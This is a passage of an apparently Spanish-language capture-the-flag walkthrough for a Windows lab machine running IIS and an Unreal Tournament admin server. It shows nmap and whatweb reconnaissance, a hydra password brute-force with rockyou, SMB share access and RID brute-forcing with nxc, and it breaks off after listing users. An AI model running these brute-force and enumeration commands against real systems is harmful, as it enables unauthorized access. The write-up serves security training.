

# TO: AoT

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.64.186.110 -oN allPorts.txt

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
8080/tcp  open  http-proxy
49667/tcp open  unknown
```

Scan de servicios

```bash
nmap -sC -sV -p80,135,139,445,3389,8080,49667 -Pn 10.64.186.110 -oN target.txt

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Tactical Ops \xE2\x80\x94 Welcome

135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?

3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-12-26T09:37:49+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=PC-TO
| Not valid before: 2025-12-18T12:33:53
|_Not valid after:  2026-06-19T12:33:53
| rdp-ntlm-info: 
|   Target_Name: PC-TO
|   NetBIOS_Domain_Name: PC-TO
|   NetBIOS_Computer_Name: PC-TO
|   DNS_Domain_Name: PC-TO
|   DNS_Computer_Name: PC-TO
|   Product_Version: 10.0.19041
|_  System_Time: 2025-12-26T09:37:10+00:00

8080/tcp  open  http          Unreal Tournament http admin Build 451
| http-title: 401 Unauthorized
|_Requested resource was /ServerAdmin/
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=UT Remote Admin Server

49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-12-26T09:37:10
|_  start_date: N/A
```


HTTP Port 80,8080

Realizamos una enumeración básica de posibles directorios comunes pero no hay nada interesante

```shellscript
nmap --script http-enum -p80,8080 10.64.186.110 -oN webScan.txt
```

Al ejecutar `whatweb` se esta ejecutando IIS 10.0 y otro al parece un servidor de `UnrealEngine`

```bash
whatweb -v http://10.64.186.110
WhatWeb report for http://10.64.186.110
Status    : 200 OK
Title     : Tactical Ops — Welcome
IP        : 10.64.186.110
Country   : RESERVED, ZZ

Summary   : HTML5, HTTPServer[Microsoft-IIS/10.0], Microsoft-IIS[10.0]
```

```bash
whatweb -v http://10.64.186.110:8080
WhatWeb report for http://10.64.186.110:8080
Status    : 302 Found
Title     : Document Moved
IP        : 10.64.186.110
Country   : RESERVED, ZZ

Summary   : maybe Dell-OpenManage-Switch-Administrator, HTTPServer[UnrealEngine UWeb Web Server Build 451], RedirectLocation[/ServerAdmin/]
```


Visitamos el Sitio web del puerto 8080 ya que contiene un directorio interesante /ServerAdmin/, pero no contamos con credenciales. un busca en internet no encontramos credenciales posibles

<figure><figcaption></figcaption></figure>

Vamos a visitar el sitio web, encontramos un sitio básico la cual no contiene nada interesante, _"TacticalOps"_ es un mod del UnrealTournament 1999

<figure><figcaption></figcaption></figure>

Buscamos en el código fuente si hay algo interesante...

<figure><figcaption></figcaption></figure>


Encontramos un posible nombre de usuario, el cual vamos a probar en la ruta del `ServerAdmin`  con la herramienta `hydra` , hemos encontrado una contraseña.

```bash
hydra -l lalo -P /usr/share/wordlists/rockyou.txt http-get://10.64.186.110:8080/ServerAdmin/ -t 4
```

<figure><figcaption></figcaption></figure>

Hemos accedido al ServerAdmin

<figure><figcaption></figcaption></figure>

Exploramos el sitio completamente...

Encontramos unos posibles nombres.

<figure><figcaption></figcaption></figure>


Encontramos un contraseña

<figure><figcaption></figcaption></figure>

no hay nada mas interesante dentro del sitio

### SMB

Anteriormente encontramos SMB abierto así que vamos a revisar con `nxc` para confirmar que es un Windows 10 x64

```bash
nxc smb 10.64.186.110                                                         
SMB     10.64.186.110   445    PC-TO            [*] Windows 10 / Server 2019 Build 19041 x64 (name:PC-TO) (domain:PC-TO) (signing:False) (SMBv1:False)
```

No es posible listar directorios compartidos&#x20;

```bash
nxc smb 10.64.186.110 -u '' -p '' --shares
SMB         10.64.186.110   445    PC-TO            [-] Error enumerating shares: Error occurs while reading from remote(104)

nxc smb 10.64.186.110 -u 'guest' -p '' --shares
SMB         10.64.186.110   445    PC-TO            [-] Error enumerating shares: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
```

Vamos a probar el nombre de usuario encontrado anteriormente con las credenciales. pero no es posible listar recursos compartidos.

Vamos a probar con la lista de nombres encontrados dentro del ServerAdmin y es posible listar recursos compartidos.

```bash
nxc smb 10.64.186.110 -u 'blake' -p '' --shares
SMB         10.64.186.110   445    PC-TO            [*] Windows 10 / Server 2019 Build 19041 x64 (name:PC-TO) (domain:PC-TO) (signing:False) (SMBv1:False) 
SMB         10.64.186.110   445    PC-TO            [+] PC-TO\blake: 
SMB         10.64.186.110   445    PC-TO            [*] Enumerated shares
SMB         10.64.186.110   445    PC-TO            Share           Permissions     Remark
SMB         10.64.186.110   445    PC-TO            -----           -----------     ------
SMB         10.64.186.110   445    PC-TO            ADMIN$                          Remote Admin
SMB         10.64.186.110   445    PC-TO            backup                          
SMB         10.64.186.110   445    PC-TO            C$                              Default share
SMB         10.64.186.110   445    PC-TO            important       READ            
SMB         10.64.186.110   445    PC-TO            IPC$            READ            Remote IPC
```

nos conectamos `smbclient`, encontramos varios documentos los cuales descargamos

```bash
smbclient //10.64.186.110/important -U 'blake'
Password for [WORKGROUP\blake]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Dec 18 19:20:00 2025
  ..                                  D        0  Thu Dec 18 19:20:00 2025
  D.pdf                               A   583351  Thu Dec 18 19:20:00 2025
  ES.pdf                              A   580879  Thu Dec 18 19:20:00 2025
  FR.pdf                              A   582243  Thu Dec 18 19:20:00 2025
  GB.pdf                              A   607803  Thu Dec 18 19:20:00 2025
  IT.pdf                              A   581362  Thu Dec 18 19:20:00 2025
  Léeme.txt                          A    12541  Thu Dec 18 19:20:00 2025
  PO.pdf                              A   584389  Thu Dec 18 19:20:00 2025
  Readme.txt                          A    11795  Thu Dec 18 19:20:00 2025

		7720461 blocks of size 4096. 2575080 blocks available
smb: \> 
```

Nada interesante en ningún archivo...

Antes de quedarse sin ideas vamos a probar un otras opciones de `nxc` encontramos varios nombres de usuarios

```bash
nxc smb 10.64.186.110 -u 'blake' -p '' --rid-brute
SMB         10.64.186.110   445    PC-TO            [*] Windows 10 / Server 2019 Build 19041 x64 (name:PC-TO) (domain:PC-TO) (signing:False) (SMBv1:False) 
SMB         10.64.186.110   445    PC-TO            [+] PC-TO\blake: 
SMB         10.64.186.110   445    PC-TO            500: PC-TO\Administrator (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            501: PC-TO\Guest (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            503: PC-TO\DefaultAccount (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            504: PC-TO\WDAGUtilityAccount (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            513: PC-TO\None (SidTypeGroup)
SMB         10.64.186.110   445    PC-TO            1002: PC-TO\SMB-READ (SidTypeAlias)
SMB         10.64.186.110   445    PC-TO            1003: PC-TO\tanya (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            1004: PC-TO\boris (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            1005: PC-TO\blake (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            1006: PC-TO\hicks (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            1007: PC-TO\ivan (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            1008: PC-TO\johnson (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            1009: PC-TO\nikita (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            1010: PC-TO\natasha (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            1011: PC-TO\faka (SidTypeUser)
SMB         10.64.186.110   445    PC-TO            1013: PC-TO\spike (SidTypeUser)
```

Vamos a filtra la lista de nombres de usuarios
